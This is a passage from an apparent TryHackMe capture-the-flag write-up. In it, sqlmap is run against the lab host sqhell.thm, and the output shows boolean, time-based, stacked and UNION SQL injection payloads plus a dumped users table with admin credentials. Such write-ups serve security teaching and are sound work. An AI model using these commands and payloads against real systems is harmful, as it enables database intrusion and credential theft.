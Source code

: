 Therefore, the request param `/register/user-check?username=` might be injectable too.

## Exploit

I will use the **sqlmap** as the primary tool to enumerate and extract data from the target server database.

### Flag 5

Start with the param `/user?id=1`

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ sqlmap -u http://sqhell.thm/user?id=1 --batch --dbs --dump
[...]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5124=5124

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9663 FROM (SELECT(SLEEP(5)))AtZr)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-5902 UNION ALL SELECT CONCAT(0x716b716b71,0x65594b6f53665378507362797352764b715469764669596b7266594d7a566d636d73475056707a71,0x7162787171),NULL,NULL-- -
---
[...]
[08:32:51] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] sqhell_4
[...]
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```

Do the same with param `/post?id=1` (same meaning with the `/post?id=2`):

